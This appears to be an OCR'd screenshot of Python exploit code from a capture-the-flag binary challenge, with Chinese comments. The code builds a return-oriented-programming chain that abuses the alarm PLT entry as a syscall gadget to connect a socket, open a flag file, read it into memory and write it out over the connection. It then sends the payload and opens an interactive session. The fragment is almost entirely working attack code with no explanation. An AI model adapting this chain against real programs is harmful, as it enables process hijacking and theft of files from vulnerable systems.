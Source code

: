 ```python
payload+=p64(0)
payload+=p64(0)#rbx无用寄存器
payload+=p64(alarm_plt_addr)#syscall

#connect(soc,struct_socket_addr,sizeof(struct_socket)
#调试socket发现，执行之后，然后的rax值是0，因此connect的rdi为0
payload+=p64(pop_rdi_addr)
payload+=p64(0)
payload+=p64(pop_rsi_r15_addr)
payload+=p64(bss_addr+0x8)
payload+=p64(0)#r15无用寄存器
payload+=p64(prctl_plt_addr)
payload+=p64(42)
payload+=p64(16)
payload+=p64(0)#rbx无用寄存器
payload+=p64(alarm_plt_addr)

#open(flag_addr,0)
payload+=p64(pop_rdi_addr)
payload+=p64(bss_addr)
payload+=p64(pop_rsi_r15_addr)
payload+=p64(0)
payload+=p64(0)#15无用寄存器
payload+=p64(prctl_plt_addr)
payload+=p64(2)
payload+=p64(0)#rdx无用寄存器
payload+=p64(0)#rbx无用寄存器
payload+=p64(alarm_plt_addr)

#read(open_return_value,bss+400,0x30)
payload+=p64(pop_rdi_addr)
payload+=p64(1)
payload+=p64(pop_rsi_r15_addr)
payload+=p64(bss_addr+400)
payload+=p64(0)#r15无用寄存器
payload+=p64(prctl_plt_addr)
payload+=p64(0)
payload+=p64(0x30)
payload+=p64(0)#rbx无用寄存器
payload+=p64(alarm_plt_addr)

#write(0,bss_addr+400,0x30)
payload+=p64(pop_rdi_addr)
payload+=p64(0)
payload+=p64(pop_rsi_r15_addr)
payload+=p64(bss_addr+400)
payload+=p64(0)#r15无用寄存器
payload+=p64(prctl_plt_addr)
payload+=p64(1)
payload+=p64(0x30)
payload+=p64(0)#rbx无用寄存器
payload+=p64(alarm_plt_addr)

p.send(payload)
print(hex(len(payload)))
p.interactive()
```